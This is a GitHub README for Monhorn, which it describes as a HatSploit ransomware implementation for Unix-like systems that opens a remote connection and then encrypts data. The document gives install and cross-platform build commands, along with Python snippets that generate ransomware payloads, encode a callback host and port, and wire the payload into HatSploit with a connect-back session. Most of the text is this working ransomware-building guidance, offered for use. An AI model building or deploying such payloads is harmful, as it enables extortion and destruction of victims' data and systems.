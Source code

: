 # Monhorn

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Monhorn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Monhorn?color=yellow">
    </a>
</p>

Monhorn is an implementation of HatSploit ransomware for Unix-like systems, that firstly establishes a remote connection and then begins crypto operations.

## Installing

You should install HatSploit to get Monhorn, because Monhorn depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Monhorn

These are platforms which are supported by Monhorn.

* **macOS** - `make all platform=macos sdk=<path>`
* **Apple iOS** - `make all platform=apple_ios sdk=<path>`
* **Linux** - `make all platform=linux`

**NOTE:** To compile for target `macos` you will need to download patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs) and to compile for `apple_ios` target you will need to download patched SDKs from [here](https://github.com/theos/sdks).

## Basic usage

To use Monhorn and build payloads you should import it to your source.

```python3
from pwny import Monhorn
from pwny import MonhornSession
```

* `Monhorn` - Monhorn utilities, mostly for generating payloads and encoding arguments.
* `MonhornSession` - Wrapper for `HatSploitSession` for Monhorn, HatSploit should use it with Monhorn payload.

To get Monhorn template, you should call `get_template()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
template = monhorn.get_template('linux', 'x64')
```

To encode Monhorn data, you should call `encode_data()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
args = monhorn.encode_data('127.0.0.1', 8888)
```

To get Monhorn executable, you should call `get_monhorn()`.

```python3
from monhorn import Monhorn

monhorn = Monhorn()
executable = monhorn.get_monhorn('linux', 'x64', '127.0.0.1', 8888)
```

**NOTE:** If you want Monhorn to connect you should specify both `host` and `port`, but if you want Monhorn to listen, you should specify only `port`.

## Adding Monhorn payload

To add Monhorn payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Monhorn` and `MonhornSession` and put `Monhorn` to `HatSploitPayload` class.
* Set payload parameter `Session` to `MonhornSession`.
* Return `get_monhorn()` with platform, architecture and host and port specified.

```python3
return self.get_monhorn(
    self.details['Platform'],
    self.details['Architecture'],
    remote_host,
    remote_port
)
```
